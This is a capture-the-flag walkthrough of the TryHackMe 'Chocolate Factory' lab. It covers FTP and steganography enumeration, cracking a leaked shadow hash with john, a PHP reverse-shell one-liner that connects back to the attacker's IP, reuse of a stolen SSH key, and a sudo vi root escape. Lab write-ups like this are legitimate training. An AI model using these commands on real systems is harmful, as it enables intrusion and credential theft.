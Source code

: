 # CTF-Write-up

## Try Hack Me - Chocolate Factory

##### URL: https://tryhackme.com/room/chocolatefactory

##### Created by _https://tryhackme.com/p/0x9747_, _https://tryhackme.com/p/saharshtapi_ and _https://tryhackme.com/p/AndyInfoSec_

![logo](https://user-images.githubusercontent.com/20625004/114892914-db8ec200-9e15-11eb-8fbf-45df6a83d74f.PNG)

##### You should deploy the machine first.

##### Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

##### Run nmap against the target machine.

```nmap -sC -A <target IP>```

##### We found multiple ports.

##### Looking carefully of the ``nmap`` output we notice somthing intersting.

![nmap](https://user-images.githubusercontent.com/20625004/114934209-4bb33d00-9e42-11eb-8806-c438fdb96844.PNG)

##### There is a link.

##### We access it and download the file.

![key](https://user-images.githubusercontent.com/20625004/114934540-ac427a00-9e42-11eb-84ab-1c14b2952806.PNG)

##### Seems we found a flag.

##### Next we found anonymous access on ftp port, lets access it.

##### Inside there is a gum_room.jpg photo, download it.

``mget gum_room.jpg``

##### Using ``steghide`` and no password we can extract a txt.

![b64](https://user-images.githubusercontent.com/20625004/114932504-405f1200-9e40-11eb-8452-a04157e52f86.PNG)

##### There is an indication on the name of the b64.txt which can refer to base64.

##### Access the file.

![b64_txt](https://user-images.githubusercontent.com/20625004/114932725-7f8d6300-9e40-11eb-8cc2-aab90828b5e7.PNG)

##### Lets decode it.

##### You can use a web site for this action or type the following command.

`` echo "the content of the file" | base64 -d``

##### We found the shadow file of the target system.

![shadow](https://user-images.githubusercontent.com/20625004/114933169-0e9a7b00-9e41-11eb-9123-eb4374131377.PNG)

##### We found the user with a hashed password we need to decode it.

##### Lets use ``john`` for this action.

##### Copy the user we want into a new txt file and use this with ``john``.

``john txt file --w=/path/to/wordlist``

![john](https://user-images.githubusercontent.com/20625004/114933603-82d51e80-9e41-11eb-9bc0-ccb3af9d5014.PNG)

##### We have a password (flag) we have a user lets access the web portal on port 80.

![portal](https://user-images.githubusercontent.com/20625004/114933813-ca5baa80-9e41-11eb-9f4e-3f31febdc10c.PNG)

##### Before this step i also used ``gobuster`` in order to find intersting paths on the portal with no success.

![access](https://user-images.githubusercontent.com/20625004/114933995-042cb100-9e42-11eb-993c-67ad6dd6290f.PNG)

##### Success we have access. 

##### We can execute commands.

![command](https://user-images.githubusercontent.com/20625004/114934814-14915b80-9e43-11eb-982e-dbfe8b630b17.PNG)

##### Now lets try reverse shell, set up a netcat listener on a port on your machine and add the below command.

##### We use PHP since we know that the website is written in PHP.

``php -r '$sock=fsockopen("Your IP",Port);exec("/bin/sh -i <&3 >&3 2>&3");'``

![data](https://user-images.githubusercontent.com/20625004/114935615-14459000-9e44-11eb-92fa-e14f51279d82.PNG)

##### Within the home directory of the user there is a SSH private key, save it on your system.

##### Give proper SSH permissions ``chmod 600 xxx`` i named it id_rsa.

##### Then we use it with the user to access SSH.

``ssh -i id_rsa username@targetIP``

![ssh](https://user-images.githubusercontent.com/20625004/114936474-27a52b00-9e45-11eb-8eed-23d27b19b8cb.PNG)

##### We now have access and the user flag.

##### We move on Privilege Escalation.

##### The first move is to type ``sudo -l``.

![sudo](https://user-images.githubusercontent.com/20625004/114937079-fd07a200-9e45-11eb-9fa8-04f5429d59aa.PNG)

##### We can execute ``vi`` with root permissions.

##### Searching on ``https://gtfobins.github.io/gtfobins/vi/`` and we can exploit it.

``sudo vi -c ':!/bin/sh' /dev/null``

![root](https://user-images.githubusercontent.com/20625004/114937496-84551580-9e46-11eb-9f40-427e2945b8b8.PNG)

##### We are root. Move on the root directory.

##### There´s a root.py in the folder which contains the follwoing code.

![python](https://user-images.githubusercontent.com/20625004/114937970-2c6ade80-9e47-11eb-9b43-24602fe78492.PNG)

##### The script will take an input and decrypt it.

##### After many trials and errors i used the first flag key we found at the first steps.

![flag](https://user-images.githubusercontent.com/20625004/114938288-9a170a80-9e47-11eb-9554-68cca9dcdb96.PNG)

##### And we have own it. There you should find the last flag.



